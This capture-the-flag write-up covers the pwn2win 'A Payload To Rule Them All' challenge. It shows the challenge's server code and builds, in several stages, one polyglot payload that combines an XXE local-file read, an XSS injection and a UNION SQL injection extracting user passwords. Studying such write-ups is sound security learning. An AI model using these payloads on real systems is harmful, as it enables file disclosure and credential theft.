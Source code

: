 ```yaml
---
title: "pwn2win: A Payload To Rule Them All"
date: 2020-06-08
tags: [web, xss, sqli, xxe]
draft: false
---
```

This one gives us a post endpoint for a payload that needs to exploit xxe, xss,
and sqli (sql injection), as well as the code for the server:

```server.js
const express = require("express")
const app = express()
const bodyParser = require("body-parser")
const port = 31337
const { execFile } = require("child_process")
const fs = require("fs")
const rateLimit = require("express-rate-limit");
app.use(express.static("static"))
app.use(bodyParser.urlencoded({ extended: true }))
const limiter = rateLimit({ windowMs: 10 * 60 * 1000, max: 50 });
// 15 minutes  // limit each IP to 100 requests per windowMs 
app.use('/', limiter);
app.post('/', (req, res) => {
    const test_payload = execFile("/usr/sbin/gosu", ["gnx", "/home/gnx/script/test_payload.js",
        req.body.payload], (error, stdout, stderr) => {
            if (stdout.toString().trim() === "parabens hackudo") {
                res.send(process.env.FLAG)
            } else { 
                res.send("nope") 
            }
        }); 
        console.log(req.body.payload)
})
app.get('/source', (req, res) => {
    var out = "/usr/src/app/index.js :\n\n" +
        fs.readFileSync("/usr/src/app/index.js").toString() +
        "\n\n"
    out += "/home/gnx/script/test_payload.js :\n\n" +
        fs.readFileSync("/home/gnx/script/test_payload.js") +
        "\n\n"
    res.send(out)
})

app.listen(port, '0.0.0.0', () => console.log(`Chall rodando em http://localhost:${port}`))
```

as well as the `test_payload.js` referenced above:

```test_payload.js
#!/usr/bin /env node
const puppeteer = require('puppeteer')
const mysql = require("mysql")
const util = require('util')
const libxml = require("libxmljs")
const fs = require("fs")
const sanitizeHtml = require("sanitize-html")

function test_xxe(payload) {
    try {
        var my_secret = Math.random().toString(36).substring(2);
        fs.writeFileSync("/home/gnx/script/xxe_secret", my_secret)
        var doc = libxml.parseXml(payload, { noent: true, nonet: true })
        return doc.toString().includes(my_secret)
    } catch (e) { return false }
}

async function test_xss(payload) {
    try {
        const browser = await puppeteer.launch({
            args: ['--no-sandbox', '--disable-setuid-sandbox', '--disable-dev-shm-usage', '--disable-accelerated-2d-canvas', '--no-first-run', '--no-zygote', '--single-process', '--disable-gpu']
        })
        const page = await browser.newPage()
        page.setDefaultNavigationTimeout(1000);
        payload = sanitizeHtml(payload, { allowedTags: [] })
        await page.goto(`data:text/html,<script>${payload}</script>`)
        const check = await page.evaluate("( typeof xss != 'undefined' ? true : false )")
        // vlw herrera
        await browser.close()
        return check
    } catch (error) {
        console.error(error)
    }
}

async function test_sqli(payload) {
    var connection = mysql.createConnection({
        host: process.env.MYSQL_HOST || "127.0.0.1",
        user: process.env.MYSQL_USER,
        password: process.env.MYSQL_PASSWORD,
        database: process.env.MYSQL_DATABASE,
        charset: 'utf8',
        dialectOptions: { collate: 'utf8_general_ci', },
    })
    const query = util.promisify(connection.query).bind(connection)
    connection.connect()
    const users = await query("SELECT * from users")
    try {
        const sqli = await query(`SELECT * from posts where id='${payload}'`)
        await connection.end()
        return JSON.stringify(sqli).includes(users[0]["password"])
    } catch (e) {
        return false
    }
}

function main(args) {
    var xss = test_xss(args[0])
    var sqli = test_sqli(args[0])
    var xxe = test_xxe(args[0])
    Promise.all([xss, sqli]).then(function (values) {
        if (values[0] && values[1] && xxe) {
            console.log("parabens hackudo")
        } else {
            console.log("hack harder")
        }
        process.exit(0)
    })
}
main(process.argv.slice(2))
```

I realized I'd need something that parsed as valid js, valid sqli, and valid
xml, to some extent, which was the hardest part of the puzzle.

The xml attack was pretty easy to test locally and pretty easy to come up with.
As simple as this:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>&xxe;</r>
```

Next, getting some validly parsing sql by ending the quote, and tacking
a comment on the end with `#`:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>&xxe;</r>
<!--' union select password from users limit 1;#-->
```

It was a bit of a struggle to get the js to work (need to inject `xss=true;`), even with the assist of
sanitize-html. The sanitize-html call basically stripped out all of the xml 
and comments, which was mostly helpful, so something like this almost works:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>;xss=true;//&xxe;</r>
<!--' union select password from users limit 1;#-->
```

But you end up with something like: `]>;xss=true;//&xxe;` and the `];` doesn't
run.

I spent a while struggling with this piece, until a teammate suggested trying
another entity to inject a comment around the garbage:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
<!ENTITY xxe2 SYSTEM "xxe_seed>/*">]><r>*/xss=true;//&xxe;</r>
<!--' union select password from users;#-->
```

And the last piece was figuring out how many columns was in the posts table, so
we could match the union injection--took a few tries, but I just tacked on `,1`
until it ran and gave the flag. I think it was 4 columns, but don't remember at
this point. The `limit 1` isn't necessary but it seemed kind not to pull in the whole
table cartesian product ;) --the result was something like this:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
<!ENTITY xxe2 SYSTEM "xxe_seed>/*">]><r>*/xss=true;//&xxe;</r>
<!--' union select password, 1, 1, 1 from users limit 1;#-->
```

Note: it needs to be all on one line, but I broke it up for visibility.
